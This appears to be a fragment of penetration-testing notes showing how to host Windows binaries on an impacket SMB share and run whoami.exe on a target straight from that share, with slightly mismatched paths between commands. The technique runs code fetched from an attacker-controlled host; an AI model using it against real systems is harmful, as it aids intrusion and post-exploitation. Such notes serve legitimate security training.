 SMB Server

``` bash
$ locate whoami.exe
/usr/share/windows-resources/binaries/whoami.exe
```

``` bash
smbserver.py a /usr/share/windows-binaries/
```

SMB Client

``` bash
\\<ip_server>\a\whoami.exe
```